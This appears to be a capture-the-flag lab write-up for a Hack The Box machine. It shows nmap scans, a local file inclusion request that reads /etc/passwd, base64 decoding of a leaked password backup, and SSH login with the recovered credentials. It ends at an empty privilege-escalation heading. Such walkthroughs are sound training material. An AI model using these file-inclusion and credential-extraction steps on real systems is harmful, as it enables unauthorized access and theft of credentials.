


#nmap_scan 

```
nmap 10.10.10.84

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 21:00 +01
Nmap scan report for 10.10.10.84
Host is up (0.068s latency).
Not shown: 938 closed tcp ports (reset), 60 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.56 seconds

```

**we have tow port is open**
-> more info 
```
nmap -sC -sV -p 22,80 10.10.10.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 21:03 +01
Nmap scan report for 10.10.10.84
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.61 seconds
```


**open the website** 
we have this 


**we found local file inclusion**

```
http://10.10.10.84/browse.php?file=file:///etc/passwd
```



and if you do 
```
http://10.10.10.84/browse.php?file=listfiles.php
```

result is : 

Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt )

and we check this file pwdbackup.txt
and we found :
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

to get the password you can use this code python :

```
import base64

# Your Base64-encoded string
encoded = """Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlp...."""

# Decode it 13 times
for _ in range(13):
    encoded = base64.b64decode(encoded).decode('utf-8')
    print(encoded)
```

after that you use all this info to login in to ssh :

```
ssh charix@IP 
passwrod is : Charix!2#4%6&8(0
```

cat /home/charix/user.txt


#privilege_escalation

